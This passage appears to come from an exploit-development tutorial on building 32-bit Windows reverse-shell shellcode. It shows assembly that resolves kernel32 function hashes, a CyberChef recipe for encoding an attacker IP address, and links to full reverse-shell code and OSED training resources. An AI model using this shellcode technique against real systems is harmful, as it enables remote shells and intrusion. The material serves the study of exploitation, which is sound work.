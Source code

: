 ### Reverse Shell

We can extend resolve-symbols-kernel32 to retrieve multiple symbols like so:

```
" resolve_symbols_kernel32: "
"  push 0x78b5b983 ;" # Exit hash 
"  call dword ptr [ebp+0x04] ;" 
"  mov [ebp+0x10], eax ;"
"  push 0xec0e4e8e ;" # LoadLibraryA hash
"  call dword ptr [ebp+0x04] ;"
"  mov [ebp+0x14], eax ;" 
"  push 0x16b3fe72 ;" # CreateProcessA hash
"  call dword ptr [ebp+0x04] ;"
"  mov [ebp+0x18], eax ;"
```

Then we need to call LoadLibraryA and resolve the symbols in the loaded library again and call a useful function with the correct arguments.

#### IP Address

Convert for shellcode using windbg: [https://gchq.github.io/CyberChef/#recipe=From\_Decimal('Space',false)To\_Hex('Space',0)\&input=MTkyIDE2OCAxNTMgMTI5](https://gchq.github.io/CyberChef/#recipe=From\_Decimal\('Space',false\)To\_Hex\('Space',0\)\&input=MTkyIDE2OCAxNTMgMTI5)

#### Full Reverse Shell Code (32-Bit Windows 10)

[https://gist.github.com/xct/33a7623f43397a96c74bc69f226f0936](https://gist.github.com/xct/33a7623f43397a96c74bc69f226f0936)

### References

* [https://www.ired.team/offensive-security/code-injection-process-injection/finding-kernel32-base-and-function-addresses-in-shellcode](https://www.ired.team/offensive-security/code-injection-process-injection/finding-kernel32-base-and-function-addresses-in-shellcode)
* [https://www.offensive-security.com/exp301-osed/](https://www.offensive-security.com/exp301-osed/)
* [https://github.com/epi052/osed-scripts](https://github.com/epi052/osed-scripts)
